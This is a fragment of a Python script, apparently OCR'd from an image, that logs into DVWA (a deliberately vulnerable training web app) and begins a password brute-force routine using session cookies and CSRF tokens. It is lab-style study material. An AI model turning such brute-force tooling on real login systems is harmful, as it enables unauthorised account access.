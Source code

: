 ```python
    return session_id, user_token


# Login to DVWA core
def dvwa_login(session_id, user_token):
    # POST data
    data = {
        "username": dvwa_user,
        "password": dvwa_pass,
        "user_token": user_token,
        "Login": "Login"
    }

    # Cookie data
    cookie = {
        "PHPSESSID": session_id,
        "security": sec_level
    }

    try:
        # Make the request to the URL
        print("\n[i] URL: %s/login.php" % target)
        print("[i] Data: %s" % data)
        print("[i] Cookie: %s" % cookie)
        r = requests.post("{0}/login.php".format(target), data=data, cookies=cookie, allow_redirects=False)

    except:
        # Feedback for the user (there was an error) & Stop execution of our request
        print("\n\n[!] dvwa_login: Failed to connect (URL: %s/login.php).\n[i] Quitting." % (target))
        sys.exit(-1)

    # Wasn't it a redirect?
    if r.status_code != 301 and r.status_code != 302:
        # Feedback for the user (there was an error again) & Stop execution of our request
        print("\n\n[!] dvwa_login: Page didn't response correctly (Response: %s).\n[i] Quitting." % (r.status_code))
        sys.exit(-1)

    # Did we log in successfully?
    if r.headers["Location"] != 'index.php':
        # Feedback for the user (there was an error) & Stop execution of our request
        print("\n\n[!] dvwa_login: Didn't login (Header: %s  user: %s  password: %s  user_token: %s  session_id: %s).\n[i] Quitting." % (
          r.headers["Location"], dvwa_user, dvwa_pass, user_token, session_id))
        sys.exit(-1)

    # If we got to here, everything should be okay!
    print("\n[i] Logged in! (%s/%s)\n" % (dvwa_user, dvwa_pass))
    return True


# Make the request to-do the brute force
def url_request(username, password, session_id):
    # GET data
    data = {
        "username": username,
        "password": password,
        "Login": "Login"
    }

    # Cookie data
```